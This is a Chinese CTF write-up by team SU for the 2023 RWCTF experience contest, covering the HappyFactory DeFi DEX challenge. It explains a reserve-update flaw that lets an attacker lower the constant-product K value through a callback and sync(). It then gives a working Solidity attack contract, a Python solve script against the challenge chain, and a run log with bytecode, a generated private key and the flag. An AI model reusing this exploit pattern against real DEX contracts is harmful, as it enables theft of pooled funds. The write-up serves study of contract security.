







本次2023 RWCTF 体验赛 我们 SU 取得了第二名 🥈的好成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 2023 RWCTF的 writeup

<!--more-->

## HappyFactory
这题的合约类型是DeFi-DEX，由于大多数DEX采用的是恒定乘积自动做市商模型，所以首先看合约代码中是否存在K值校验计算错误的问题，发现不存在这个问题，并且代码基本上正确，第一眼看不出什么异常，于是找到目前链上主流的DEX合约代码来进行对比，发现题目合约代码中关于币对流动性储备值的处理与正常的流程不一致，存在先发送代币后更新储备值的可能，可供我们构造出比原先更低的恒定乘积K值，以绕过滑点问题，使得我们能够通过1A代币交换成1B代币。大致流程是：先换出1B代币给攻击合约账户-回调攻击合约的HappyCall-在HappyCall函数中调用币对流动性的sync函数更新储备值（原先为10:10，现在为10:9）-将1A代币转给币对流动性以增加它的余额值（此时余额值为11：9，能够通过K值校验）-最后将成功换出的1B代币发送给deployer账户。题目的最大坑点在于回调函数名应该为HappyCall而不是代码中给出的KonohaCall，这个要自己调试才能猜出来。



具体的攻击合约代码与脚本如下：
Hacker.sol:
```
pragma solidity ^0.8.0;

import "./Happy.sol";

contract Hacker {
    address tokenA;
    address tokenB;
    Greeter greeter;
    IHappyFactory factory;
    IHappyPair pair;

    function hack(address _greeter, address _deployer) public {
        greeter = Greeter(address(_greeter));
        greeter.airdrop();
        tokenA = greeter.tokenA();
        tokenB = greeter.tokenB();
        (address token0, address token1) = tokenA < tokenB
            ? (tokenA, tokenB)
            : (tokenB, tokenA);
        factory = IHappyFactory(
            address(0xA2A21Fe2fD692b63Df06ECd5b0a783323B4eae36)
        );
        pair = IHappyPair(factory.getPair(token0, token1));
        if (token0 == tokenA) {
            pair.swap(0, 1 ether, address(this), new bytes(1));
        } else {
            pair.swap(1 ether, 0, address(this), new bytes(1));
        }
        IERC20(tokenB).transfer(_deployer, 1 ether);
    }

    function HappyCall(
        address sender,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external {
        pair.sync();
        IERC20(tokenA).transfer(address(pair), 1 ether);
    }

    function isSolved() public view returns (bool) {
        return greeter.isSolved();
    }
}


```

`solve.py:`
```python
from Poseidon.Blockchain import *  # https://github.com/B1ue1nWh1te/Poseidon
import requests
import time

'''
[+] deployer account: 0xD1262D03B3F0f5aE0bDC8AB007C5D73E6036f848
[+] token: v4.local.iqGxZZzAduEwBUPqYyWhHXMZFbItLHsM6CDjlu_ihI-4d1eS0xp0nONWaHotJBLcZiJsDlp2WUJr9cNLjbByKhzzr7ZE-Ayf49_AWdrs5yFj8c_qzsdVfrsVzr2U9IQMs6UtHZ38qCzFiLLx3hkIAGqMKCIVGWwhzF9quU3tOi1Kuw
[+] contract address: 0xc615a812208f7F380019C5fA442f6dcEE7F41B32
[+] flag: rwctf{mVsdeUeKM6jU4myiTCsoQhpdjTKxJmRM}
'''

# 连接至链
chain = Chain("http://118.31.7.155:8545")

# 创建新账户
AccountAddress, AccountPrivateKey = BlockchainUtils.CreateNewAccount()

# 领取测试币
assert(requests.post("http://118.31.7.155:8080/api/claim", data={"address": AccountAddress}).status_code == 200)

# 等待一段时间以便测试币发放得到区块确认
time.sleep(10)

# 导入账户
account = Account(chain, AccountPrivateKey)

# 选择 Solidity 版本
BlockchainUtils.SwitchSolidityVersion("0.8.0")

# 编译攻击合约
abi, bytecode = BlockchainUtils.Compile("Hacker.sol", "Hacker")

# 部署攻击合约
hacker = account.DeployContract(abi, bytecode)["Contract"]

# 开始攻击
_greeter = "0xc615a812208f7F380019C5fA442f6dcEE7F41B32"
_deployer = "0xD1262D03B3F0f5aE0bDC8AB007C5D73E6036f848"
hacker.CallFunction("hack", _greeter, _deployer)

# 查看解出状态
hacker.ReadOnlyCallFunction("isSolved")

```
运行日志：
```
2023-01-07 22:54:28.246 | SUCCESS  | Poseidon.Blockchain:__init__:37 - 
[Chain][Connect]Successfully connected to [http://118.31.7.155:8545]. [Delay] 104 ms
2023-01-07 22:54:28.443 | SUCCESS  | Poseidon.Blockchain:GetBasicInformation:55 - 
[Chain][GetBasicInformation]
[ChainId]1712
[BlockNumber]65067
[GasPrice]1 Gwei
[ClientVersion]Geth/v1.10.17-stable-25c9b49f/linux-amd64/go1.18
2023-01-07 22:54:28.460 | SUCCESS  | Poseidon.Blockchain:CreateNewAccount:705 - 
[BlockchainUtils][CreateNewAccount]
[Address]0x4109F583C2e0916a5972d567cC32A78fc20503aC
[PrivateKey]0x7c0d75837f8ee639a66475c2ffa833f24f65e81d512609dcab8d5ba76f576807
2023-01-07 22:54:38.557 | SUCCESS  | Poseidon.Blockchain:__init__:230 - 
[Account][Import]Successfully import account [0x4109F583C2e0916a5972d567cC32A78fc20503aC].
2023-01-07 22:54:38.607 | SUCCESS  | Poseidon.Blockchain:GetBalance:108 - 
[Chain][GetBalance][0x4109F583C2e0916a5972d567cC32A78fc20503aC]
[1000000000000000000 Wei]<=>[1 Ether]
信息: 用提供的模式无法找到文件。
2023-01-07 22:54:38.849 | SUCCESS  | Poseidon.Blockchain:SwitchSolidityVersion:657 - 
[BlockchainUtils][SwitchSolidityVersion]Current Version: 0.8.0
2023-01-07 22:54:39.447 | SUCCESS  | Poseidon.Blockchain:Compile:687 - 
[BlockchainUtils][Compile]
[FileCourse]Hacker.sol
[ContractName]Hacker
[ABI][{'inputs': [{'internalType': 'address', 'name': 'sender', 'type': 'address'}, {'internalType': 'uint256', 'name': 'amount0', 'type': 'uint256'}, {'internalType': 'uint256', 'name': 'amount1', 'type': 'uint256'}, {'internalType': 'bytes', 'name': 'data', 'type': 'bytes'}], 'name': 'HappyCall', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [{'internalType': 'address', 'name': '_greeter', 'type': 'address'}, {'internalType': 'address', 'name': '_deployer', 'type': 'address'}], 'name': 'hack', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [], 'name': 'isSolved', 'outputs': [{'internalType': 'bool', 'name': '', 'type': 'bool'}], 'stateMutability': 'view', 'type': 'function'}]
[Bytecode]608060405234801561001057600080fd5b50610f18806100206000396000f3fe608060405234801561001057600080fd5b50600436106100415760003560e01c806347ae43181461004657806364d98f6e14610062578063d78046e714610080575b600080fd5b610060600480360381019061005b9190610b72565b61009c565b005b61006a6108a2565b6040516100779190610d1e565b60405180910390f35b61009a60048036038101906100959190610bae565b610948565b005b816000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16633884d6356040518163ffffffff1660e01b8152600401600060405180830381600087803b15801561014457600080fd5b505af1158015610158573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16630fc63d106040518163ffffffff1660e01b815260040160206040518083038186803b1580156101c257600080fd5b505afa1580156101d6573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906101fa9190610b49565b600160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16635f64b55b6040518163ffffffff1660e01b815260040160206040518083038186803b1580156102a057600080fd5b505afa1580156102b4573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906102d89190610b49565b600260006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600080600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16106103dd57600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16610424565b600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff165b9150915073a2a21fe2fd692b63df06ecd5b0a783323b4eae36600460006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663e6a4390583836040518363ffffffff1660e01b81526004016104da929190610ccc565b60206040518083038186803b1580156104f257600080fd5b505afa158015610506573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061052a9190610b49565b600360006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff1614156106d457600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663022c0d9f6000670de0b6b3a764000030600167ffffffffffffffff81111561064b577f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b6040519080825280601f01601f19166020018201604052801561067d5781602001600182028036833780820191505090505b506040518563ffffffff1660e01b815260040161069d9493929190610d39565b600060405180830381600087803b1580156106b757600080fd5b505af11580156106cb573d6000803e3d6000fd5b505050506107e4565b600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663022c0d9f670de0b6b3a7640000600030600167ffffffffffffffff81111561075f577f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b6040519080825280601f01601f1916602001820160405280156107915781602001600182028036833780820191505090505b506040518563ffffffff1660e01b81526004016107b19493929190610d85565b600060405180830381600087803b1580156107cb57600080fd5b505af11580156107df573d6000803e3d6000fd5b505050505b600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a9059cbb84670de0b6b3a76400006040518363ffffffff1660e01b8152600401610849929190610cf5565b602060405180830381600087803b15801561086357600080fd5b505af1158015610877573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061089b9190610c2e565b5050505050565b60008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166364d98f6e6040518163ffffffff1660e01b815260040160206040518083038186803b15801561090b57600080fd5b505afa15801561091f573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906109439190610c2e565b905090565b600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663fff6cae96040518163ffffffff1660e01b8152600401600060405180830381600087803b1580156109b257600080fd5b505af11580156109c6573d6000803e3d6000fd5b50505050600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a9059cbb600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16670de0b6b3a76400006040518363ffffffff1660e01b8152600401610a51929190610cf5565b602060405180830381600087803b158015610a6b57600080fd5b505af1158015610a7f573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190610aa39190610c2e565b505050505050565b600081359050610aba81610e9d565b92915050565b600081519050610acf81610e9d565b92915050565b600081519050610ae481610eb4565b92915050565b60008083601f840112610afc57600080fd5b8235905067ffffffffffffffff811115610b1557600080fd5b602083019150836001820283011115610b2d57600080fd5b9250929050565b600081359050610b4381610ecb565b92915050565b600060208284031215610b5b57600080fd5b6000610b6984828501610ac0565b91505092915050565b60008060408385031215610b8557600080fd5b6000610b9385828601610aab565b9250506020610ba485828601610aab565b9150509250929050565b600080600080600060808688031215610bc657600080fd5b6000610bd488828901610aab565b9550506020610be588828901610b34565b9450506040610bf688828901610b34565b935050606086013567ffffffffffffffff811115610c1357600080fd5b610c1f88828901610aea565b92509250509295509295909350565b600060208284031215610c4057600080fd5b6000610c4e84828501610ad5565b91505092915050565b610c6081610ded565b82525050565b610c6f81610dff565b82525050565b6000610c8082610dd1565b610c8a8185610ddc565b9350610c9a818560208601610e59565b610ca381610e8c565b840191505092915050565b610cb781610e35565b82525050565b610cc681610e47565b82525050565b6000604082019050610ce16000830185610c57565b610cee6020830184610c57565b9392505050565b6000604082019050610d0a6000830185610c57565b610d176020830184610cbd565b9392505050565b6000602082019050610d336000830184610c66565b92915050565b6000608082019050610d4e6000830187610cae565b610d5b6020830186610cbd565b610d686040830185610c57565b8181036060830152610d7a8184610c75565b905095945050505050565b6000608082019050610d9a6000830187610cbd565b610da76020830186610cae565b610db46040830185610c57565b8181036060830152610dc68184610c75565b905095945050505050565b600081519050919050565b600082825260208201905092915050565b6000610df882610e0b565b9050919050565b60008115159050919050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000819050919050565b6000610e4082610e2b565b9050919050565b6000610e5282610e2b565b9050919050565b60005b83811015610e77578082015181840152602081019050610e5c565b83811115610e86576000848401525b50505050565b6000601f19601f8301169050919050565b610ea681610ded565b8114610eb157600080fd5b50565b610ebd81610dff565b8114610ec857600080fd5b50565b610ed481610e2b565b8114610edf57600080fd5b5056fea2646970667358221220d2c43a8f74db54ede8223494291882f9de0436050f7c95b636f32c8afbadd1a764736f6c63430008000033
2023-01-07 22:54:39.763 | INFO     | Poseidon.Blockchain:DeployContract:418 - 
[Account][DeployContract]
[TransactionHash]0xcef95b48e3d6c03f734ebd4c3a4a2372b2b4360bae5dac4def46a5e9b2febc1f
[Txn]{
  "chainId": 1712,
  "from": "0x4109F583C2e0916a5972d567cC32A78fc20503aC",
  "nonce": 0,
  "value": 0,
  "gasPrice": 1000000000,
  "gas": 886169,
  "data": "0x608060405234801561001057600080fd5b50610f18806100206000396000f3fe608060405234801561001057600080fd5b50600436106100415760003560e01c806347ae43181461004657806364d98f6e14610062578063d78046e714610080575b600080fd5b610060600480360381019061005b9190610b72565b61009c565b005b61006a6108a2565b6040516100779190610d1e565b60405180910390f35b61009a60048036038101906100959190610bae565b610948565b005b816000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16633884d6356040518163ffffffff1660e01b8152600401600060405180830381600087803b15801561014457600080fd5b505af1158015610158573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16630fc63d106040518163ffffffff1660e01b815260040160206040518083038186803b1580156101c257600080fd5b505afa1580156101d6573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906101fa9190610b49565b600160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16635f64b55b6040518163ffffffff1660e01b815260040160206040518083038186803b1580156102a057600080fd5b505afa1580156102b4573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906102d89190610b49565b600260006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600080600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16106103dd57600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16610424565b600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff165b9150915073a2a21fe2fd692b63df06ecd5b0a783323b4eae36600460006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663e6a4390583836040518363ffffffff1660e01b81526004016104da929190610ccc565b60206040518083038186803b1580156104f257600080fd5b505afa158015610506573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061052a9190610b49565b600360006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff1614156106d457600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663022c0d9f6000670de0b6b3a764000030600167ffffffffffffffff81111561064b577f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b6040519080825280601f01601f19166020018201604052801561067d5781602001600182028036833780820191505090505b506040518563ffffffff1660e01b815260040161069d9493929190610d39565b600060405180830381600087803b1580156106b757600080fd5b505af11580156106cb573d6000803e3d6000fd5b505050506107e4565b600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663022c0d9f670de0b6b3a7640000600030600167ffffffffffffffff81111561075f577f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b6040519080825280601f01601f1916602001820160405280156107915781602001600182028036833780820191505090505b506040518563ffffffff1660e01b81526004016107b19493929190610d85565b600060405180830381600087803b1580156107cb57600080fd5b505af11580156107df573d6000803e3d6000fd5b505050505b600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a9059cbb84670de0b6b3a76400006040518363ffffffff1660e01b8152600401610849929190610cf5565b602060405180830381600087803b15801561086357600080fd5b505af1158015610877573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061089b9190610c2e565b5050505050565b60008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166364d98f6e6040518163ffffffff1660e01b815260040160206040518083038186803b15801561090b57600080fd5b505afa15801561091f573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906109439190610c2e565b905090565b600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663fff6cae96040518163ffffffff1660e01b8152600401600060405180830381600087803b1580156109b257600080fd5b505af11580156109c6573d6000803e3d6000fd5b50505050600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a9059cbb600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16670de0b6b3a76400006040518363ffffffff1660e01b8152600401610a51929190610cf5565b602060405180830381600087803b158015610a6b57600080fd5b505af1158015610a7f573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190610aa39190610c2e565b505050505050565b600081359050610aba81610e9d565b92915050565b600081519050610acf81610e9d565b92915050565b600081519050610ae481610eb4565b92915050565b60008083601f840112610afc57600080fd5b8235905067ffffffffffffffff811115610b1557600080fd5b602083019150836001820283011115610b2d57600080fd5b9250929050565b600081359050610b4381610ecb565b92915050565b600060208284031215610b5b57600080fd5b6000610b6984828501610ac0565b91505092915050565b60008060408385031215610b8557600080fd5b6000610b9385828601610aab565b9250506020610ba485828601610aab565b9150509250929050565b600080600080600060808688031215610bc657600080fd5b6000610bd488828901610aab565b9550506020610be588828901610b34565b9450506040610bf688828901610b34565b935050606086013567ffffffffffffffff811115610c1357600080fd5b610c1f88828901610aea565b92509250509295509295909350565b600060208284031215610c4057600080fd5b6000610c4e84828501610ad5565b91505092915050565b610c6081610ded565b82525050565b610c6f81610dff565b82525050565b6000610c8082610dd1565b610c8a8185610ddc565b9350610c9a818560208601610e59565b610ca381610e8c565b840191505092915050565b610cb781610e35565b82525050565b610cc681610e47565b82525050565b6000604082019050610ce16000830185610c57565b610cee6020830184610c57565b9392505050565b6000604082019050610d0a6000830185610c57565b610d176020830184610cbd565b9392505050565b6000602082019050610d336000830184610c66565b92915050565b6000608082019050610d4e6000830187610cae565b610d5b6020830186610cbd565b610d686040830185610c57565b8181036060830152610d7a8184610c75565b905095945050505050565b6000608082019050610d9a6000830187610cbd565b610da76020830186610cae565b610db46040830185610c57565b8181036060830152610dc68184610c75565b905095945050505050565b600081519050919050565b600082825260208201905092915050565b6000610df882610e0b565b9050919050565b60008115159050919050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000819050919050565b6000610e4082610e2b565b9050919050565b6000610e5282610e2b565b9050919050565b60005b83811015610e77578082015181840152602081019050610e5c565b83811115610e86576000848401525b50505050565b6000601f19601f8301169050919050565b610ea681610ded565b8114610eb157600080fd5b50565b610ebd81610dff565b8114610ec857600080fd5b50565b610ed481610e2b565b8114610edf57600080fd5b5056fea2646970667358221220d2c43a8f74db54ede8223494291882f9de0436050f7c95b636f32c8afbadd1a764736f6c63430008000033"
}
2023-01-07 22:54:44.209 | SUCCESS  | Poseidon.Blockchain:__init__:559 - 
[Contract][Instantiate]Successfully instantiated contract [0x1e104E8594299b97f568c3C271c374f6a45a5AeA].
2023-01-07 22:54:44.214 | SUCCESS  | Poseidon.Blockchain:DeployContract:428 -
[Account][DeployContract][Success]
[TransactionHash]0xcef95b48e3d6c03f734ebd4c3a4a2372b2b4360bae5dac4def46a5e9b2febc1f
[BlockNumber]65073
[ContractAddress]0x1e104E8594299b97f568c3C271c374f6a45a5AeA
[Value]0 [GasUsed]886169
[Logs][]
2023-01-07 22:54:44.367 | INFO     | Poseidon.Blockchain:CallFunction:577 - 
[Contract][CallFunction]
[ContractAddress]0x1e104E8594299b97f568c3C271c374f6a45a5AeA
[Function]hack('0xc615a812208f7F380019C5fA442f6dcEE7F41B32', '0xD1262D03B3F0f5aE0bDC8AB007C5D73E6036f848')
2023-01-07 22:54:44.525 | INFO     | Poseidon.Blockchain:SendTransaction:323 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2
[Txn]{
  "chainId": 1712,
  "from": "0x4109F583C2e0916a5972d567cC32A78fc20503aC",
  "to": "0x1e104E8594299b97f568c3C271c374f6a45a5AeA",
  "nonce": 1,
  "value": 0,
  "gasPrice": "1 Gwei",
  "gas": 348108,
  "data": "0x47ae4318000000000000000000000000c615a812208f7f380019c5fa442f6dcee7f41b32000000000000000000000000d1262d03b3f0f5ae0bdc8ab007c5d73e6036f848"
}
2023-01-07 22:54:50.222 | SUCCESS  | Poseidon.Blockchain:SendTransaction:331 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0xe2293d0c28bdde56d04f4d4981af39f35255d21c21d610a19b4635a0665028a2
[BlockNumber]65075
[From]0x4109F583C2e0916a5972d567cC32A78fc20503aC
[To]0x1e104E8594299b97f568c3C271c374f6a45a5AeA
[Value]0 [GasUsed]290437
[Data]0x47ae4318000000000000000000000000c615a812208f7f380019c5fa442f6dcee7f41b32000000000000000000000000d1262d03b3f0f5ae0bdc8ab007c5d73e6036f848
